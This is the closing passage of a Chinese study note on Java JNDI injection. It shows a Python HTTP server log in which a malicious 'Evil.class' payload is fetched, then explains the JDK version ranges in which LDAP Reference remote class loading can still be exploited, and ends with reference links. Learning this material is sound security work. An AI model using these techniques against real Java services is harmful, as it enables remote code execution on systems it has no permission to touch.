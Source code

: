 

```shell
python -m http.server 39777
Serving HTTP on 0.0.0.0 port 39777 (http://0.0.0.0:39777/) ...
127.0.0.1 - - [01/Sep/2021 20:38:03] "GET /Evil.class HTTP/1.1" 200 -
```

![image-20210901204109758]([Java安全]JNDI注入学习.assets/image-20210901204109758.png)





# LDAP的限制

在JDK 8u191、7u201、6u211之后，com.sun.jndi.ldap.object.trustURLCodebase属性的默认值被设置为false，对LDAP Reference远程工厂类的加载增加了限制。

所以，当JDK版本介于8u191、7u201、6u211与6u141、7u131、8u121之间时，我们就可以利用LDAP+Reference的技巧来进行JNDI注入的利用。

8u191之后有师傅提出了绕过，这个以后再谈了。

# 参考链接

https://rickgray.me/2016/08/19/jndi-injection-from-theory-to-apply-blackhat-review/

https://kingx.me/Exploit-Java-Deserialization-with-RMI.html

https://xz.aliyun.com/t/6633

https://www.mi1k7ea.com/2019/09/15/%E6%B5%85%E6%9E%90JNDI%E6%B3%A8%E5%85%A5/